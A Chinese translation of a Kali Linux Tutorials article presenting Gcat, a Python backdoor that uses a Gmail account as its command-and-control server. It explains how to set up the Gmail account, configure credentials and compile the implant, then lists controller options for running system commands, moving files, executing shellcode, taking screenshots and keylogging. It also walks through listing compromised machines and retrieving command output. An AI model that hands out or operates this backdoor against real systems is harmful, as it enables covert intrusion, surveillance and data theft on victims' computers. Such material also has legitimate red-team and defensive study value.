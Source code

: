 # Gcat 偷偷后门使用 Gmail 作为命令和控制服务器

> 原文：<https://kalilinuxtutorials.com/gcat-gmail-command-control-server/>

Gcat 是一个基于 Python 的秘密后门，它使用 Gmail 作为命令和控制服务器。这个项目的灵感来自本杰明唐纳利的原始概念代码。

**也读作[syl kie–IPv6 地址欺骗与邻居发现协议](https://kalilinuxtutorials.com/sylkie-ipv6-address-spoofing/)**

## **设置 Gcat**

为此，您需要:

*   Gmail 帐户(使用专用帐户！不要用你的私人手机！)
*   在帐户的安全设置下打开“允许不太安全的应用程序”
*   您可能还需要在帐户设置中启用 IMAP

此回购包含两个文件:

*   用于枚举可用客户端并向其发出命令的脚本
*   `implant.py`实际的后门部署

在这两个文件中，使用您之前设置的帐户的用户名和密码编辑`gmail_user`和`gmail_pwd`变量。

您可能想要使用 Pyinstaller 将`implant.py`编译成可执行文件。

**注意:**建议您使用 32 位 Python 安装来编译 implant.py

## **用法**

```
optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger
```

*   **一旦在几个系统上部署了后门，就可以使用 list 命令检查可用的客户端:**

```
#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86
```

输出是一个 UUID 字符串，它唯一地标识系统和运行植入的操作系统

*   **让我们向一个植入物发出命令:**

```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv
```

这里我们告诉`90b2cd83-cb36-52de-84ee-99db6ff41a11`执行`ipconfig /all`，然后脚本输出`jobid`，我们可以用它来检索该命令的输出

*   让我们看看结果吧！

```
#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'
```

```
Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No**

**-- SNIP --
```

*   这就是它的主旨！但是您可以做更多的事情，正如您可以从脚本的用法中看到的那样！

[![](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/byt3bl33d3r/gcat)